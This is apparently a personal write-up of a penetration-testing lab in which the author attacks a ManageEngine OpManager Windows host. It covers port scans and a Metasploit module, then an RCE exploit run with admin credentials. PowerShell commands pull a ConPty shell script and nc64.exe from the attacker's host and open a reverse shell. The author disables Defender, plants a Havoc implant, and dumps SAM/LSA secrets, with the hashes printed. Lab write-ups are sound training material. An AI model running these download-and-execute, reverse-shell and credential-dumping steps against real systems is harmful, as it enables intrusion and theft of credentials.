As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE       REASON         VERSION
22/tcp    open  ssh           syn-ack ttl 64 (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Network ConfigManager SCP Server
| ssh-hostkey: 
|   1024 a2:ab:0c:3d:3a:3c:cb:98:16:b8:5e:d3:5d:65:11:79 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAP1/U4EddRIpUt9KnC7s5Of2EbdSPO9EAMMeP4C2USZpRV1AIlH7WT2NWPq/xfW6MPbLm1Vs14E7gB00b/JmYLdrmVClpJ+f6AR7ECLCT7up1/63xhv4O1fnxqimFQ8E+4P208UewwI1VBNaFpEy9nXzrith1yrv8iIDGZ3RSAHHAAAAFQCXYFCPFSMLzLKSuYKi64QL8Fgc9QAAAIEA9+GghdabPd7LvKtcNrhXuXmUr7v6OuqC+VdMCz0HgmdRWVeOutRZT+ZxBxCBgLRJFnEj6EwoFhO3zwkyjMim4TwWeotUfI0o4KOuHiuzpnWRbqN/C/ohNWLx+2J6ASQ7zKTxvqhRkImog9/hWuWfBpKLZl6Ae1UlZAFMO/7PSSoAAACAeta5oNDwlcWLwGRJDtc6kc9kXAaMVP6eKV7l7GP7zgwF89T34RVfCEpk/bggCIzog5BtODEeopwvvWVFRZl13eg4d5DDUKqrApsTEa9vrp8gmNUmd5N9qvnwzjEGe0KqcRbrSRAnpRQEXUoN1yBSM9sJR+CHGsphRNnJsra+9LI=
|   1024 3d:3b:65:bd:9e:27:18:2a:09:f6:6c:72:05:07:6d:04 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCWPeV4k2FOWi08MXHxSSPi1+YY1cEJ7WL+12NVqmTEzOlwrmVoJ2JUEOseQXe+fqRuONava7lru7VeJ9SpetlplLUqeb2VLn6Qb2QEgGMa47wtEqMl2EWkOT+m+XBHVQAnb7g6zNgR3vO2E0Cl185I8BI69PAwDxFBJUXG8GXe2w==
80/tcp    open  http          syn-ack ttl 64
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: ManageEngine OpManager
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Cache-Control: private
|     Expires: Wed, 31 Dec 1969 19:00:00 EST
|     Set-Cookie: JSESSIONID=E2BCA8BE9413D96603CF7527D7C70D3A; Path=/; HttpOnly
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Vary: Accept-Encoding
|     Date: Mon, 01 Jul 2024 10:33:40 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <!--[if IE]><meta http-equiv='X-UA-Compatible' content='IE=edge,chrome=1' /><![endif]-->
|     <script>
|     sessionStorage.clear();
|     ntlm = false;
|     </script>
|     <input type="hidden" id="loadCookieMethod" value="true">
|     <title>
|     ManageEngine OpManager
|     </title>
|     <script type="text/javascript">
|     function GetXmlHttpObject()
|     objXMLHttp=null
|     (window.XMLHttpReque
|   HTTPOptions: 
|     HTTP/1.1 403 
|     Cache-Control: private
|     Expires: Wed, 31 Dec 1969 19:00:00 EST
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1056
|     Vary: Accept-Encoding
|     Date: Mon, 01 Jul 2024 10:33:40 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 403 
|_    Forbidden</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {colo
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 64 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
2000/tcp  open  cisco-sccp?   syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-07-01T10:37:04+00:00; +2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CORP
|   NetBIOS_Domain_Name: CORP
|   NetBIOS_Computer_Name: MS01
|   DNS_Domain_Name: corp.local
|   DNS_Computer_Name: MS01.corp.local
|   DNS_Tree_Name: corp.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-01T10:36:21+00:00
| ssl-cert: Subject: commonName=MS01.corp.local
| Issuer: commonName=MS01.corp.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-30T03:32:55
| Not valid after:  2024-12-30T03:32:55
| MD5:   1d8d:1b2c:9ae5:c6c1:5152:7be0:6434:0f16
| SHA-1: 521a:b810:6e7a:59ab:95fd:2a79:0a05:0111:a095:52d1
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQcSSMGJmmvYRIUZQ1J/RRVTANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9NUzAxLmNvcnAubG9jYWwwHhcNMjQwNjMwMDMzMjU1WhcNMjQx
| MjMwMDMzMjU1WjAaMRgwFgYDVQQDEw9NUzAxLmNvcnAubG9jYWwwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDNq4GAom6uN60J+hZ1AWDhlzYvl+stuACk
| vN1w9CVclt0QfxZ2psixl2VxiVHTrJrTAQudWOp+eU5MTFGLh9on2fsQlmraUVQm
| K9KZHpFJ+zXU2ATMeaVmhQr8jFOT+w3H+L4agAo29Lso3RI9fxTb1mjfFWr2b43G
| +PlyL8nfa8KhjiB84poToBOIO8khgkv39wR6yPL1Lg7U4ujZMducvCNoSVzJd0Vf
| 3yaa6lfQg2JSUXQEXsEbHq/ZomM3aSidFOd3JDlavDGMsiqmWRBQUtdXGyaeG5JI
| SmZbVRusnYkJ6pI34YIv1F0poa8eftKURmqc1e1dkUKYSGsuCootAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAAImXiWoLMQ8Sw2wPbsxqKXCLSBmjmpEcaa0JQJIbiri4WjEBFz974fuF
| PmA4mEdEmKDA/kFti8f2O7/vr0ILvRG/DCKlN9Yj8xLf/bw1qq+Rd2kKizBzQw37
| z6iCwpcdCj/jarMo+FJ3ZJ5MeChWiuCyzdq9yFTnHNeanMJ5/eiduLTxH4LxPbi5
| Ee4V0N+aPrOVx/66RaYZKsXQ8aG3e7WLmdpY2JX405SlVa5GyLKKKhkwMjHk8jeK
| O1zYH+QA93fkIycsMs549wPE7GTwQiQQOGx2xG/yFE7qii3EbMN1ipJ0hLa4vnz9
| vJAL4a+2OLduwoi48cz1VeoVfGfXvA==
|_-----END CERTIFICATE-----
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49795/tcp open  java-rmi      syn-ack ttl 64 Java RMI
49856/tcp open  unknown       syn-ack ttl 64
| fingerprint-strings: 
|   Kerberos, SMBProgNeg, X11Probe, ms-sql-s: 
|_    CLOSE_SESSION
49857/tcp open  unknown       syn-ack ttl 64
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.94SVN%I=7%D=7/1%Time=66828602%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2A,"SSH-2\.0-Network\x20ConfigManager\x20SCP\x20Server\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.94SVN%I=7%D=7/1%Time=66828602%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,C37D,"HTTP/1\.1\x20200\x20\r\nCache-Control:\x20private\r\nExp
SF:ires:\x20Wed,\x2031\x20Dec\x201969\x2019:00:00\x20EST\r\nSet-Cookie:\x2
SF:0JSESSIONID=E2BCA8BE9413D96603CF7527D7C70D3A;\x20Path=/;\x20HttpOnly\r\
SF:nX-Frame-Options:\x20DENY\r\nContent-Type:\x20text/html;charset=UTF-8\r
SF:\nVary:\x20Accept-Encoding\r\nDate:\x20Mon,\x2001\x20Jul\x202024\x2010:
SF:33:40\x20GMT\r\nConnection:\x20close\r\n\r\n\n<!DOCTYPE\x20html\x20PUBL
SF:IC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20Transitional//EN\"\x20\"http://
SF:www\.w3\.org/TR/xhtml1/DTD/xhtml1-transitional\.dtd\">\n<html\x20xmlns=
SF:\"http://www\.w3\.org/1999/xhtml\">\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n
SF:\n\n\n\n\n\n\n\n\n\n\n\n\n\t<head>\n\t<!--\[if\x20IE\]><meta\x20http-eq
SF:uiv='X-UA-Compatible'\x20content='IE=edge,chrome=1'\x20/><!\[endif\]-->
SF:\n\t<script>\n\t\tsessionStorage\.clear\(\);\n\t\tvar\x20ntlm\x20=\x20f
SF:alse;\n\t</script>\n\n\t\t\t<input\x20type=\"hidden\"\x20id=\"loadCooki
SF:eMethod\"\x20value=\"true\">\n\t<title>\n\t\t\n\t\t\n\t\t\n\t\t\tManage
SF:Engine\x20OpManager\n\t\t\n\t\t\n\t</title>\n\n\n\n\n\n<script\x20type=
SF:\"text/javascript\">\n\nfunction\x20GetXmlHttpObject\(\)\n{\x20\n\x20\x
SF:20\x20\x20var\x20objXMLHttp=null\n\x20\x20\x20\x20if\x20\(window\.XMLHt
SF:tpReque")%r(HTTPOptions,513,"HTTP/1\.1\x20403\x20\r\nCache-Control:\x20
SF:private\r\nExpires:\x20Wed,\x2031\x20Dec\x201969\x2019:00:00\x20EST\r\n
SF:Content-Type:\x20text/html;charset=utf-8\r\nContent-Language:\x20en\r\n
SF:Content-Length:\x201056\r\nVary:\x20Accept-Encoding\r\nDate:\x20Mon,\x2
SF:001\x20Jul\x202024\x2010:33:40\x20GMT\r\nConnection:\x20close\r\n\r\n<!
SF:doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20Status\x20403
SF:\x20\xe2\x80\x93\x20Forbidden</title><style\x20type=\"text/css\">h1\x20
SF:{font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D
SF:76;font-size:22px;}\x20h2\x20{font-family:Tahoma,Arial,sans-serif;color
SF::white;background-color:#525D76;font-size:16px;}\x20h3\x20{font-family:
SF:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:
SF:14px;}\x20body\x20{font-family:Tahoma,Arial,sans-serif;color:black;back
SF:ground-color:white;}\x20b\x20{font-family:Tahoma,Arial,sans-serif;color
SF::white;background-color:#525D76;}\x20p\x20{font-family:Tahoma,Arial,san
SF:s-serif;background:white;color:black;font-size:12px;}\x20a\x20{color:bl
SF:ack;}\x20a\.name\x20{colo");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port49856-TCP:V=7.94SVN%I=7%D=7/1%Time=66828640%P=x86_64-pc-linux-gnu%r
SF:(Kerberos,1A,"\0\0\0\x16\0\rCLOSE_SESSION\0\x010\0\0\0\0")%r(SMBProgNeg
SF:,1A,"\0\0\0\x16\0\rCLOSE_SESSION\0\x010\0\0\0\0")%r(X11Probe,1A,"\0\0\0
SF:\x16\0\rCLOSE_SESSION\0\x010\0\0\0\0")%r(ms-sql-s,1A,"\0\0\0\x16\0\rCLO
SF:SE_SESSION\0\x010\0\0\0\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=22%CT=%CU=%PV=Y%G=N%TM=668286CF%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10B%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.30
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:13 CEST
Nmap scan report for 172.16.1.30
Host is up (0.00013s latency).
All 100 scanned ports on 172.16.1.30 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 20.40 seconds
```

&nbsp;

# OPMonitor

Now I feel that we need to attack OPMonitor somehow so I am looking around for exploits and found out this that is supposedly about LFI? https://github.com/BeetleChunks/CVE-2020-12116

But also one defauilt in Metasploit:

```
msf6 auxiliary(admin/http/manageengine_dir_listing) > show options 

Module options (auxiliary/admin/http/manageengine_dir_listing):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   DIRECTORY       /etc/            yes       Path of the directory to list
   DOMAIN_NAME                      no        Name of the domain to logon to (IT360 target only)
   IAMAGENTTICKET                   no        Pre-authenticated IAMAGENTTICKET cookie (IT360 target only)
   PASSWORD                         no        Password for the specified username (IT360 target only)
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                yes       The base path to OpManager, AppManager or IT360
   USERNAME                         no        The username to login as (IT360 target only)
   VHOST                            no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/manageengine_dir_listing) > setg rhosts 172.16.1.30
rhosts => 172.16.1.30
msf6 auxiliary(admin/http/manageengine_dir_listing) > run
[*] Running module against 172.16.1.30

[*] Listing directory /etc/
[+] File with directory listing saved in: /root/.msf4/loot/20240701134910_default_172.16.1.30_manageengine.htt_860376.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/manageengine_dir_listing) >
```

And it seems working?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# cat /root/.msf4/loot/20240701134910_default_172.16.1.30_manageengine.htt_860376.txt
C:\ManageEngine_new\OpManager\bin\..\etc
```

But then giving the root path `\` seems like we can show everything?


Now I guess we need to find a juicy file that might contain the hardcoded credentials?

&nbsp;

# Back on Track

With the credentials found in the TCPDump I was able to gain access to the machine itself.



Now that we have some creds I guess we can upload a revshell via Metasploit but firsts lets look around for juicy data on the server:  
\*  
We can see that the running version is the 12.3.150:



But without further do I will try to get a revshell as described before. But it wasn't working and googling we have a perfect match here:

https://www.exploit-db.com/exploits/47255

And If i use the Invoke-ConPtyShell I see that the command get's executed but no shell pops back:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# python3 OPManager.py -u 'admin' -p 'Zaq12wsx!' -t 'http://172.16.1.30' -c "powershell.exe IEX(IWR http://10.10.14.5:8080/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.5 443"
[+] Successfully created Workflow
[!] Executing Code . . .
[+] Code appears to have run successfully!
[!] Cleaning up . . .
[+] Exploit complete!
```

 This might mean that the PS version running is too old and it is not supporting the Conpty interactive shell:


Nevermind I will go back to the traditional revshell. And even this is not working so i will try to upload nc64.exe:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# python3 OPManager.py -u 'admin' -p 'Zaq12wsx!' -t 'http://172.16.1.30' -c "powershell iwr http://10.10.14.5:8080/nc64.exe -OutFile C:/windows/tasks/nc64.exe"
[+] Successfully created Workflow
[!] Executing Code . . .
[+] Code appears to have run successfully!
[!] Cleaning up . . .
[+] Exploit complete!
```

And calling a revshell made it working so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# python3 OPManager.py -u 'admin' -p 'Zaq12wsx!' -t 'http://172.16.1.30' -c "C:/windows/tasks/nc64.exe 10.10.14.5 2223 -e powershell"                          
[+] Successfully created Workflow
[!] Executing Code . . .
[+] Code appears to have run successfully!
[!] Cleaning up . . .
[+] Exploit complete!
```



I will upload Havoc to get a better persistence! But I see that defender is messing up so I will disable it and try again:  


And now we have it:



&nbsp;

# Post Exploitation

Before anything I will run a dump of the LSASS secrets.

```
1/07/2024 18:37:31 [yovecio] Demon » samdump C:\Temp\
[*] [B63EF401] Tasked demon to dump the SAM registry
[+] Send Task to Agent [31 bytes]
[+] Received Output [49 bytes]:
[*] Exported HKLM\SYSTEM at C:\Temp\systemic.txt

[+] Received Output [46 bytes]:
[*] Exported HKLM\SAM at C:\Temp\samantha.txt

[+] Received Output [51 bytes]:
[*] Exported HKLM\SECURITY at C:\Temp\security.txt

[*] BOF execution completed
```

And now parse time:

```
┌──(root㉿kali-bello)-[/home/…/634c0668/Download/C:/temp]
└─# impacket-secretsdump -system systemic.txt -security security.txt -sam samantha.txt LOCAL                                                      
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0xa72365a2384f0ff6ad435c166a5bbebc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
justalocaladmin:1001:aad3b435b51404eeaad3b435b51404ee:bb04a62eb2bb28d8d70fe55c4e09770d:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/iamtheadministrator:$DCC2$10240#iamtheadministrator#3c1e5b31c203b2b52920f7ce19110ab4: (2023-11-13 13:46:04)
CORP.LOCAL/svc_opmanager:$DCC2$10240#svc_opmanager#48b0724f3c01860767afe412ca1e361f: (2024-07-01 16:35:53)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:3400470032003700250043005800730023007600640042006d0026005a007900430040004f004100340040005b0048003300250046003b0066006b00730054005b007400550071004d004c002f0034004100590044004a005e002800730078005800550071005100570064005400220021005700640050006a00240048004300280050006a00310064003000720037003500660056003c0046006800790045002400750033006c004100540037004000430047006900690050002d00730069005b0044005b006a007a0048007800740073006900340030006900770020003b005d00480036006a006800290042006d00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b0008678126a9a7143961c96161725a4
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5c1829350aa04bacdd90b255592dd80dcf4ae987
dpapi_userkey:0xb092e1b3edfede593da45eb73cc5db90bae43ef0
[*] NL$KM 
 0000   99 4F 5D 6C 55 B9 EC B5  0C 0B D8 75 A2 88 93 E4   .O]lU......u....
 0010   C0 D9 EF C5 0D B9 40 57  92 39 9A BE 9D A5 83 ED   ......@W.9......
 0020   11 CB 71 7C AB 32 CD 11  FD 7A ED 2E AB BE F1 62   ..q|.2...z.....b
 0030   58 F2 1D 8A AC 9F AC FB  32 17 D8 EE B3 BD A5 DC   X.......2.......
NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
[*] Cleaning up...
```

Now I don't see that much except some hashes. I will add a local admin on the machine so I access it easier.

But it is not working so I will get my flag so far:

```
01/07/2024 18:50:34 [yovecio] Demon » ls
[*] [6E1439D8] Tasked demon to list current directory
[*] Changed directory: desktop
 Directory of C:\users\Administrator\desktop\*:

28/03/2018  15:52           282 B          desktop.ini
29/04/2018  03:51           26 B           flag.txt
               2 File(s)     308 B
               0 Folder(s)

01/07/2024 18:50:46 [yovecio] Demon » powershell "cat flag.txt"
[*] [47CA2E16] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [188 bytes]
[+] Received Output [28 bytes]:
OFFSHORE{RC3_a$_@_s3rv1c3}
```

The looking around to loot some other data I see a excell file that might contain some credentials?



And I see it is protected:

